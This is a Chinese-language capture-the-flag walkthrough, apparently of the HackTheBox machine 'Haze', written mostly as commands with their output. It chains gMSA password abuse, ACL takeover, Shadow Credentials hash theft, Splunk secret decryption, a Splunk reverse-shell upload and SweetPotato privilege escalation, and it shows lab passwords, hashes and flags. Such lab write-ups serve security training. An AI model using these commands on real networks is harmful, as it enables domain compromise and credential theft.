


提取 `gmsa` 用户密码，但 `NTLM`并没有读取成功

```zsh
┌──(Oct㉿kali)-[~]
└─$ nxc ldap 10.129.229.233 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24  --gmsa
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.229.233  636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAPS       10.129.229.233  636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.229.233  636    DC01             Account: Haze-IT-Backup$      NTLM: 
```


我们是 `GMSA_MANAGERS` 组成员，拥有对 `gmsa`的操控权限
赋予自己读取密码权限

```zsh
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity "Haze-IT-Backup" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```


再次读取，拿到 `NTLM`

```zsh
┌──(Oct㉿kali)-[~]
└─$ nxc ldap 10.129.229.233 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24  --gmsa 
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.229.233  636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.129.229.233  636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.229.233  636    DC01             Account: Haze-IT-Backup$      NTLM: 735c02c6b2dc54c3c8c6891f55279ebc
```


使用新用户收集域信息

```zsh
nxc ldap 10.129.229.233 -u Haze-IT-Backup$ -H 735c02c6b2dc54c3c8c6891f55279ebc --bloodhound --collection All --dns-server 10.129.229.233
```


当前用户对 `SUPPORT_SERVICES` 组具有修改目标对象所有者的权限，而该组可以任意重置 `EDWARD.MARTIN` 密码



将 `Haze-IT-Backup$` 加入`SUPPORT_SERVICES`组，执行 `Shadow Credentials` 攻击

```zsh
┌──(Oct㉿kali)-[~]
└─$ bloodyAD --host 10.129.229.233 -d "haze.htb" -u 'Haze-IT-Backup$' -p ":735C02C6B2DC54C3C8C6891F55279EBC" -f rc4 set owner 'SUPPORT_SERVICES' 'Haze-IT-Backup$'
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on SUPPORT_SERVICES

┌──(Oct㉿kali)-[~]
└─$ bloodyAD --host 10.129.229.233 -d "haze.htb" -u "Haze-IT-Backup$" -p ":735C02C6B2DC54C3C8C6891F55279EBC" -f rc4 add genericAll "SUPPORT_SERVICES" "Haze-IT-Backup$"

[+] Haze-IT-Backup$ has now GenericAll on SUPPORT_SERVICES

┌──(Oct㉿kali)-[~]
└─$ bloodyAD --host 10.129.229.233 -d "haze.htb" -u "Haze-IT-Backup$" -p ":735C02C6B2DC54C3C8C6891F55279EBC" -f rc4 add groupMember 'SUPPORT_SERVICES' 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ added to SUPPORT_SERVICES

┌──(Oct㉿kali)-[~]
└─$ pywhisker -d haze.htb -u Haze-IT-Backup$ -H 735c02c6b2dc54c3c8c6891f55279ebc --target edward.martin --action "list"
[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read
permissions on that attribute

┌──(Oct㉿kali)-[~]
└─$ pywhisker -d haze.htb -u Haze-IT-Backup$ -H 735c02c6b2dc54c3c8c6891f55279ebc --target edward.martin --action "add"
[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 351f354f-9da4-58c9-7a05-74971bac4061
[*] Updating the msDS-KeyCredentialLink attribute of edward.martin
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: ewFuHEZF.pfx
[*] Must be used with password: p2MbDrBLa3YjBwm5uSpM
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

┌──(Oct㉿kali)-[~]
└─$ pywhisker -d haze.htb -u Haze-IT-Backup$ -H 735c02c6b2dc54c3c8c6891f55279ebc --target edward.martin --action "list"
[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Listing devices for edward.martin
[*] DeviceID: 351f354f-9da4-58c9-7a05-74971bac4061 | Creation Time (UTC): 2025-04-01
11:50:26.416698

┌──(Oct㉿kali)-[~]
└─$ impacket-getTGT haze.htb/'Haze-IT-Backup$' -hashes :735c02c6b2dc54c3c8c6891f55279ebc -dc-ip 10.129.229.233
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in Haze-IT-Backup$.ccache

┌──(Oct㉿kali)-[~]
└─$ export KRB5CCNAME=Haze-IT-Backup\$.ccache

┌──(Oct㉿kali)-[~]
└─$ certipy shadow auto -u 'Haze-IT-Backup$'@haze.htb -hashes :735c02c6b2dc54c3c8c6891f55279ebc -account edward.martin -target dc01.haze.htb -dc-ip 10.129.229.233 -k
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '15e0634f-88ba-31a9-018f-636518c5167b'
[*] Adding Key Credential with device ID '15e0634f-88ba-31a9-018f-636518c5167b' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID '15e0634f-88ba-31a9-018f-636518c5167b' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Using principal: edward.martin@haze.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```


拿到了 `edward.martin`用户 `hash`，检查权限

```zsh
┌──(Oct㉿kali)-[~]
└─$ nxc smb 10.129.229.233 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.233  445    DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af 

┌──(Oct㉿kali)-[~]
└─$ nxc winrm 10.129.229.233 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
WINRM       10.129.229.233  5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.129.229.233  5985   DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af (Pwn3d!)

┌──(Oct㉿kali)-[~]
└─$ nxc ldap 10.129.229.233 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.229.233  389    DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af 
```


登录读取 `user flag`



看到有备份文件，下载下来

```powershell
*Evil-WinRM* PS C:\Backups\Splunk> download C:\Backups\Splunk\splunk_backup_2024-08-06.zip ./splunk_backup_2024-08-06.zip                                           
Info: Downloading C:\Backups\Splunk\splunk_backup_2024-08-06.zip to ./splunk_backup_2024-08-06.zip                    
Info: Download successful! 
```


查找 `$1、$7` 开头的 `hash`

```zsh
┌──(Oct㉿kali)-[~/MyFile/splunk/Splunk]
└─$ grep '$7$' -i ./* -F -r
./etc/system/README/inputs.conf.example:token = $7$ifQTPTzHD/BA8VgKvVcgO1KQAtr3N1C8S/1uK3nAKIE9dd9e9g==
./var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:pass4SymmKey = $7$u538ChVu1V7V9pXEWterpsj8mxzvVORn8UdnesMP0CHaarB03fSbow==
./var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:sslPassword = $7$C4l4wOYleflCKJRL9l/lBJJQEBeO16syuwmsDCwft11h7QPjPH8Bog==

┌──(Oct㉿kali)-[~/MyFile/splunk/Splunk]
└─$ grep '$1$' -i ./* -F -r
./etc/system/README/outputs.conf.example:token=$1$/fRSBT+2APNAyCB7tlcgOyLnAtqAQFC8NI4TGA2wX4JHfN5d9g==
./var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
```


解密新出现的 `hash`

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $1$YDz8WfhoCWmf6aTRkA+QqUI=
Sp1unkadmin@2k24
```


挨个测试，发现可以登录 `splunk web` 管理界面



这个后台存在文件上传 `GetShell`，参考 `https://github.com/0xjpuff/reverse_shell_splunk`



接收反弹 `Shell` 

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ nc -lvvp 32222
listening on [any] 32222 ...
connect to [10.10.16.9] from haze.htb [10.129.229.233] 54715
whoami
haze\alexander.green
PS C:\Windows\system32> 
```


利用 `sweetpotato` 读取 `system flag` 
https://github.com/uknowsec/SweetPotato/blob/master/SweetPotato-Webshell-new/bin/Release/SweetPotato.exe

```powershell
PS C:\Windows\Temp> .\sweetpotatonew.exe -a 'type C:\Users\Administrator\Desktop\root.txt'
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\dc01/pipe/fb924c83-b3ee-4977-aa4a-9ef54d68944c
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c type C:\Users\Administrator\Desktop\root.txt 
[+] process with pid: 4240 created.

=====================================

99cf104527fc9f5c8f3e6346d7007737

[+] Process created, enjoy!
```

